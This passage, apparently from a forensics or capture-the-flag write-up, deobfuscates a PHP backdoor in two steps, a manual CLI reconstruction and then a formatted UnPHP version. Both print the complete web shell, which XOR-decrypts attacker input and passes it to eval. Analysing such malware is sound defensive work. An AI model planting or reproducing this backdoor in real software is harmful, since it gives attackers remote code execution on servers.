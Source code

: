 We can either deobfuscate it partially by manually executing the above PHP code in CLI without including the last `$X` variable:

{% highlight php %}
php > $h='len(Q$t);$oQ="";QQQfor($i=0;$i<$l;)Q{for($QjQ=0;($j<$c&&$i<$lQ);$';
php > $P='Q("/$kQh(Q.+)$kf/"QQ,Q@file_gQet_contents("pQhp://inpuQt"),$m)Q==';
php > $M='1) {Q@ob_stQart(Q);@evQal(@gzuncoQmpressQQ(@x(@base6Q4_deQcode(Q$';
php > $B='$Qk="b02Q70e74";$kQQh="11a12a4a68f2"Q;Q$kf=QQ"120bb3b957QQ2c";$p=';
php > $f='"1DGp1QY6lWKI3pJ2P"Q;Qfunction x($tQ,$kQ){$QcQ=strlen($k);$l=sQtr';
php > $W='Qse64_encode(@x(Q@gzcomQpress(Q$o)Q,$k))Q;print("$pQ$kh$r$Qkf");}';
php > $y=str_replace('b','','crbebateb_bbfunbction');
php > $C='m[1])Q,$k)));$o=@Qob_QQget_conQtents();@ob_QeQnd_clean()Q;$Qr=@ba';
php > $r='j+Q+,$i++Q){$Qo.=$tQ{$i}^$Qk{$j};}}rQeturn $oQ;}ifQ (@pQreg_match';
php > $I=str_replace('Q','',$B.$f.$h.$r.$P.$M.$C.$W);
php > print ($I);

$k="b0270e74";$kh="11a12a4a68f2";$kf="120bb3b9572c";$p="1DGp1Y6lWKI3pJ2P";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
{% endhighlight %}

Or we can use the [UnPHP](https://www.unphp.net/) online which fully deobfuscates and formats the backdoor PHP code:

{% highlight php %}
<?php
$k = "b0270e74";
$kh = "11a12a4a68f2";
$kf = "120bb3b9572c";
$p = "1DGp1Y6lWKI3pJ2P";
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0;$i < $l;) {
        for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
            $o.= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    eval(@gzuncompress(@x(base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@x(@gzcompress($o), $k));
    print ("$p$kh$r$kf");
}
{% endhighlight %}
